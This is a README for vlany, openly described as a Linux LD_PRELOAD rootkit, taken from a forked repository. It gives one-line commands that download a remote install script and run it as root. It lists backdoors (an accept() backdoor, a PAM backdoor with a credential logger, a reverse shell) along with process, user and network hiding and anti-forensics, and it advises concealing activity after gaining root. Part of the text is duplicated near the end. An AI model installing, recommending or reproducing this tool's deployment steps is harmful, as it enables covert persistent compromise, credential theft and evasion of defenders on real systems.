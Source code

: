 # VLANY IS NO LONGER MAINTAINED.
# https://github.com/naworkcaj/bdvl IS. PLEASE REFER TO THAT FOR CONSTANT UPDATES.

# vlany ([wiki](https://github.com/mempodippy/vlany/wiki))
#### *vlany is a Linux LD_PRELOAD rootkit*.</br>
 * *[List of features](https://github.com/mempodippy/vlany/wiki/Features)*</br>
 * *[Anti-Detection](https://github.com/mempodippy/vlany/wiki/Anti-Detection)*

## Installing
 * vlany's [quick_install.sh](https://raw.githubusercontent.com/Kellermaenn/vlany.fixed/master/quick_install.sh) script is the fastest/easiest method of installation.</br>
`root@vlany:~# wget https://raw.githubusercontent.com/Kellermaenn/vlany.fixed/master/quick_install.sh -O /tmp/quick_install.sh && chmod +x /tmp/quick_install.sh && /tmp/quick_install.sh`</br></br>
The quick_install.sh script automatically downloads the latest version of vlany from this repository, untars the archive, then executes the regular installation script from a new random directory in /tmp/. By default, the quick_install.sh script removes the new directory once execution has completely finished.</br>

 * It's very simple to install vlany onto a sytem as it comes with an automated install script.    
To install vlany you want to first download it from our GitHub ( Always up to date and trusted )  
`root@vlany:~# wget https://github.com/Kellermaenn/vlany.fixed/archive/master.zip && unzip master.zip`

 * Once it's downloaded you just have to run `install.sh` inside vlany-master.   
`root@vlany:~# cd vlany.fixed-master && ./install.sh`   
By default this will prompt you with a [tui](https://en.wikipedia.org/wiki/Text-based_user_interface) installation but if cli is prefered you can use the --cli argument to invoke a similar cli installation.</br>

### [ASCIICAST OF INSTALLATION](https://asciinema.org/a/a8u6ca1n2ujmgijgldrcdu425)</br>
Regular tui installation on a Debian 8 box using an suid binary to escalate privileges from a tmp user. In a real life scenario, you'll want to play with some environment variables to prevent anyone from seeing your activity when root.</br>

## Downloads
[quick_install.sh](https://raw.githubusercontent.com/Kellermaenn/vlany.fixed/master/quick_install.sh)</br>
[vlany.tar.gz](https://github.com/Kellermaenn/vlany.fixed/archive/master.zip)</br>
[populated const.h](https://raw.githubusercontent.com/Kellermaenn/vlany.fixed/master/symbols/headers/const.h) (after config.py execution)</br>

## Features
  * Process hiding
  * User hiding
  * Network hiding
  * LXC container
  * Anti-Debug
  * Anti-Forensics
  * Persistent (re)installation & Anti-Detection
  * Dynamic linker modifications
  * Backdoors
    * accept() backdoor (derived from Jynx2)
    * PAM backdoor
      * PAM auth logger
    * [snodew reverse shell backdoor](https://github.com/mempodippy/snodew)
  * vlany-exclusive commands

## Known bugs
*Any bugs listed here will be present until a resolve has been reached. If a bug has been reported as an [issue](https://github.com/mempodippy/vlany/issues), the corresponding issue will also be linked in the bug listing. Should a bug be resolved, the listing will be removed from here, and if any issue is still open pertaining to the bug, it will be closed.*
### Serious bugs
> 1. There is currently an experimental reboot brick fix. Some systems will brick, others won't. Please report any systems that brick on reboot as an issue, and give the circumstances of the vlany installation in the report. Take a look at the Issues page to see if a similar issue has already been submitted.
> 2. vlany [fails to install](https://github.com/mempodippy/vlany/issues/5) correctly on anything above CentOS 6.6.

## [In-depth README.txt](https://raw.githubusercontent.com/mempodippy/vlany/master/README_old) (very detailed but not maintained)</br>
**NOTE:** vlany is in active development. Changes are constantly being made to this repository, so beware that vlany is very experimental.
<!-- LAPTOPS CANNOT RUN, THEY ARE LAPTOPS -->
# vlany.fixed

      * PAM auth logger
    * [snodew reverse shell backdoor](https://github.com/mempodippy/snodew)
  * vlany-exclusive commands

## Known bugs
*Any bugs listed here will be present until a resolve has been reached. If a bug has been reported as an [issue](https://github.com/mempodippy/vlany/issues), the corresponding issue will also be linked in the bug listing. Should a bug be resolved, the listing will be removed from here, and if any issue is still open pertaining to the bug, it will be closed.*
### Serious bugs
> 1. There is currently an experimental reboot brick fix. Some systems will brick, others won't. Please report any systems that brick on reboot as an issue, and give the circumstances of the vlany installation in the report. Take a look at the Issues page to see if a similar issue has already been submitted.
> 2. vlany [fails to install](https://github.com/mempodippy/vlany/issues/5) correctly on anything above CentOS 6.6.

## [In-depth README.txt](https://raw.githubusercontent.com/mempodippy/vlany/master/README_old) (very detailed but not maintained)</br>
**NOTE:** vlany is in active development. Changes are constantly being made to this repository, so beware that vlany is very experimental.
<!-- LAPTOPS CANNOT RUN, THEY ARE LAPTOPS -->
